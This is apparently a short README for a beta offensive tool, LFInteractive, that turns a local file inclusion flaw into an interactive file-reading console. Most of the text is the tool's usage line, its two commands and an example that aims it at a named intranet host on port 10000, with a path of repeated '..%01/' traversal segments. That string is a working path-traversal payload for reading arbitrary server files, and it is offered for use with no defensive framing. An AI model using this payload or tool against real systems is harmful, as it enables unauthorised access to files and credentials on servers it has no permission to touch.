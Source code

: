 # BETA

```
USAGE: ./app.py <url+lfi>
COMMANDS: 
    clear -> clear terminal
    exit -> close LFInteractive

Example:
    ./app.py http://intranet.businesscorp.com.br:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01
```
<img src="https://i.imgur.com/dyBhTF3.png">
